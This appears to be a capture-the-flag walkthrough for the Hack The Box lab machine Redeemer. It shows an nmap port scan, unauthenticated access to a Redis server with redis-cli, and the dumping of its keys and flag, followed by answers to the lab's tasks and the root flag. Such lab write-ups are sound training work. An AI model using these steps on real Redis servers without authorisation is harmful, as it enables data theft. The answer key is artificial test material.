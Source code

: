 Starting Point - Tier 0

-Machine Name: Redeemer

-Difficulty: Very Easy

-IP address: 10.129.2.230



##      Steps:

- scan the network

      sudo nmap 10.129.2.230 -sV -p- --min-rate 5000

- go to root

      sudo su
- to see redis commands

      redis-cli --help
- connect to redis server

      redis-cli -h 10.129.2.230

- select database 0

      select 0

- list the information of the redis

      info
-  list all the keys stored in the currently selected database.

        keys *
- download flag

      get flag

- in the root, go to Downloads

      cd Downloads

- open the file containing the flag

      cat flag.txt


##  Tasks:

Task 1

-Which TCP port is open on the machine?


    6379


Task 2

-Which service is running on the port that is open on the machine?


    redis


Task 3

-What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database


    In-memory Database


Task 4

-Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.


    redis-cli


Task 5

-Which flag is used with the Redis command-line utility to specify the hostname?


    -h


Task 6

-Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?


    info


Task 7

-What is the version of the Redis server being used on the target machine?


    5.0.7


Task 8

-Which command is used to select the desired database in Redis?


    select


Task 9

-How many keys are present inside the database with index 0?


    4


Task 10

-Which command is used to obtain all the keys in a database?


    keys *


Submit Flag

-Submit root flag


    03e1d2b376c37ab3f5319922053953eb
